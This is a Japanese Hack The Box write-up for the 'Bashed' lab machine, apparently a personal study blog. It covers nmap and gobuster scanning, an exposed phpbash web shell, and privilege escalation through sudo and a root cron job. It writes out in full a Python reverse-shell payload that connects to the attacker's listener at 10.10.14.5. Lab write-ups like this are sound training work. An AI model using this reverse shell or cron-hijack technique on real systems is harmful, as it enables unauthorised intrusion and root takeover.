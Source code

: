 # はじめに
Hack The Boxの攻略などを自分用にまとめたものです。  
主に記録用として記しています。  
現在のランクはHackerです。  
間違っていることも多いかと思いますが、よろしくお願いします。  
<img src="http://www.hackthebox.eu/badge/image/185549" alt="Hack The Box">    
チートシートも公開しておりますが知識がまだまだ不足しているため、学習経過とともに身につけた内容などを随時更新していきます。  
GitHub(ペネトレーションテスト用チートシート):  
https://github.com/yukitsukai47/PenetrationTesting_cheatsheet  
Twitter:@yukitsukai1731

# Bashed
![スクリーンショット 2020-06-19 0.52.57.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/2d7a8db4-f020-3b75-4920-3e9c6490914b.png)

HackTheBox公式より

Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As basic access to the crontab is restricted.

Bashedは、主にファジングと重要なファイルの位置を特定することに重点を置いた、かなり簡単なマシンです。基本的にはcrontabへのアクセスが制限されているため、Bashedを使うことはできません。


# スキャン
Bashed(10.10.10.68)に対して、スキャンを行います。  
まずnmapからスキャンを開始します。  
## nmap 

```
nmap -sC -sV -Pn -oN bashed.nmap 10.10.10.68
```

- -sC...デフォルトスクリプトでスキャン
- -sV...バージョン検出
- -oN...通常出力
- -Pn...ping送信をせずにスキャンを行う

```
# Nmap 7.80 scan initiated Thu Jun 18 17:17:51 2020 as: nmap -sC -sV -Pn -oN bashed.nmap 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.23s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun 18 17:18:21 2020 -- 1 IP address (1 host up) scanned in 30.18 seconds
```
nmapの結果、80番ポートが空いていることが分かります。  
まずはブラウザからHTTPにアクセスしてみると、phpbashedについて書かれたページが見つかります。   

![スクリーンショット 2020-06-18 17.49.04.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/174d8627-738e-892b-db1c-526dabac52d5.png)

マシンの名前とこのページからphpbashがどこかに設置されているのではないか、と推測します。  
しかしhttp://10.10.10.69/phpbash.phpなどで検索しても見つからないので、ディレクトリスキャナーをかけて他の情報を見つけましょう。  


##Gobuster

```
gobuster dir -t 25 -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,sh,txt,cgi -o bashed.gobuster
```

```
┌─[yukitsukai@parrot]─[~/htb/Bashed]
└──╼ $gobuster dir -t 25 -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,sh,txt,cgi -o bashed.gobuster
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.68
[+] Threads:        25
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,sh,txt,cgi
[+] Timeout:        10s
===============================================================
2020/06/18 23:41:11 Starting gobuster
===============================================================
/images (Status: 301)
/uploads (Status: 301)
/php (Status: 301)
/css (Status: 301)
/dev (Status: 301)
/js (Status: 301)
/config.php (Status: 200)
/fonts (Status: 301)
===============================================================
2020/06/18 00:52:14 Finished
===============================================================
```

この結果を元にブラウザで調べていくと、/devの下にphpbash.phpが見つかることが分かります。
![スクリーンショット 2020-06-18 17.50.36.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/4bd30d45-93c4-82a4-00f5-78920c62c67d.png)


# 侵入
侵入と書いていますが、この時点でWebshellにアクセスできているのでuser.txtは確保できます。  
![スクリーンショット 2020-06-18 17.53.50.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/181d8675-e6b2-dac4-6047-c7fe95296286.png)

# 特権エスカレーション
ここでこのphpbash.phpを使っていていまいち挙動が良くなく不安定だったので、reverse_shell接続を確立しようと思います。
チートシート:
https://github.com/yukitsukai47/PenetrationTesting_cheatsheet

ここでbashやphpを使ってreverse_shellを確立しようとしたのですが、なぜかうまくいきませんでした。  
そこで他に使えるものはないかと、いろいろ調べているとpythonが使えることが分かります。  
![スクリーンショット 2020-06-19 1.40.01.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/4ef1d322-f15b-e0cc-6e6d-9aa7a415e851.png)
python使ってreverse_shellを試みるとうまく成功しました。
![スクリーンショット 2020-06-18 23.53.45.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/fc4a3aad-c025-c6be-cef6-89837ea74dd5.png)

次にsudo -lコマンドを使用すると、現在のユーザ(www-data)がscriptmanagerというユーザでコマンドを実行できることが分かります。  
ls -laでファイルを調べてみるとscriptmanagerの権限でアクセスできるscriptsというディレクトリが見つかりました。  
![スクリーンショット 2020-06-18 23.57.23.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/71ea1264-11f9-88cd-4673-0f5443f8ffd7.png)
scriptsmanagerでbashを起動しましょう。
![スクリーンショット 2020-06-18 23.54.04.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/654d6f1e-8cec-71de-9c39-a827a5081938.png)

scriptsディレクトリの下にはtest.pyとtest.txtと言うものが見つかります。
![スクリーンショット 2020-06-18 23.59.01.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/be7c651a-b986-3eb6-2760-0489a75934a9.png)

test.pyのソース  

```
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

どうやらtest.txtを出力するためのコードのようです。  
またls -laの結果からtest.txtはなぜかroot権限になっています。  
つまり、scriptmanager権限で動かすことができるtest.pyを使うとroot権限で実行できるということになります。  
このことからtest.pyをreverse_shell接続できるように書き換えてみます。  
![スクリーンショット 2020-06-19 0.08.23.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/b4cccade-08e1-d146-6089-e63da7766e53.png)
エディタは使えなかったのでechoコマンドを使って地道に編集していきます。  

```
echo 'import socket,subprocess,os' > test.py
echo 's=socket.socket(socket.AF_INET,socket.SOCK_STREAM)' >> test.py
echo 's.connect(("10.10.14.5",1234))' >> test.py
echo 'os.dup2(s.fileno(),0)' >> test.py
echo 'os.dup2(s.fileno(),1)' >> test.py
echo 'os.dup2(s.fileno(),2)' >> test.py
echo 'p=subprocess.call(["/bin/sh","-i"])' >> test.py
```
netcatで待ち受けておきます。
![スクリーンショット 2020-06-19 1.54.01.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/8c7df0c7-a3f6-7eae-e841-ecac7ee3fd09.png)

test.pyを実行します。

```
python test.py
```

reverse_shell接続はされたのですが、権限がscriptmanagerのままになっています。
![スクリーンショット 2020-06-19 1.23.41.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/04597cac-7456-a8b3-ada5-e6af9917b454.png)

rootを取れなかったので何か別の方法がないか模索していたところ、test.pyは定期的に実行されていることに気が付きました。
crontabコマンドを使ってどんなスケジュールが組まれているのか確かめてみます。

![スクリーンショット 2020-06-19 1.21.39.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/c8f6848b-5263-36bb-9f06-037495930927.png)
これを見ると毎分ごとに.pyとついたファイルが自動実行されていることが分かります。  
このことからtest.pyファイル以外に別のreverse_shell用のファイルを作成してみます。
![スクリーンショット 2020-06-19 2.02.46.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/1e18c546-d894-5339-83d3-a62f42fb91f9.png)
するとreverse.pyは自動実行され待ち受けていたnetcatにreverse_shell接続されます。
![スクリーンショット 2020-06-19 2.04.36.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/6f79369b-b90b-8439-c9f6-6ba4973f7ef6.png)
権限はrootでした。  
お疲れ様でした。